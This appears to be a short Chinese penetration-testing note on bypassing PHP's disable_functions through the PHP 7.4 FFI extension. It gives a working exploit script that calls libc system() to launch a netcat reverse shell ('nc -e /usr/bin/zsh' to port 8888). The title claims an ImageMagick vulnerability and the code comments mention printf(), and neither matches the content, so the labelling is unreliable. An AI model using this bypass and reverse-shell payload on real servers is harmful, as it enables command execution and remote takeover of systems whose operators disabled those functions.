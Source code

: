 ```yaml
---
title: "利用 ImageMagick 漏洞绕过（二）"
id: zhfly3471
---
```


## 利用 ImageMagick 漏洞绕过（二）

**1.利用条件**

php 7.4
ffi.enable=true

**2.基本原理**

FFI（Foreign Function Interface），即外部函数接口，允许从用户区调用C代码。
当PHP所有的命令执行函数被禁用后，通过PHP 7.4的新特性FFI可以实现用PHP代码调用C代码的方式，先声明C中的命令执行函数，然后再通过FFI变量调用该C函数即可Bypass disable_functions。

![image](../img/c97dba03983492deb4876554a7614a37.png)

**3.exp**

```
<?php
// create FFI object, loading libc and exporting function printf()
$ffi = FFI::cdef(
   "int system(char *command);", // this is a regular C declaration
   "libc.so.6");
// call C's printf()
$a='nc -e /usr/bin/zsh 127.0.0.1 8888';
$ffi->system($a);
?> 
```